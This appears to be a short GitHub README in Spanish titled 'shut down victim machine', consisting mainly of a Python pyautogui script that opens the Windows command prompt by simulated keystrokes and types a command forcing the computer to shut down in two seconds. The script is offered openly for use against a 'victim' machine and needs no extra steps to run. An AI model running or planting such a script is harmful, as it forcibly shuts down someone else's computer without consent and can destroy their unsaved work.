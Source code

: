 # Apagar-maquina-victima
**Abre el terminal de Windows y apaga la maquina victima**


# Code

```python

# Importamos los modulos que usaremos

import pyautogui
import time

pyautogui.press("win")
time.sleep(1.5)

pyautogui.write("cmd")
pyautogui.press("enter")

time.sleep(2)

pyautogui.write("shutdown -s -t 2") 
pyautogui.press("enter")
```
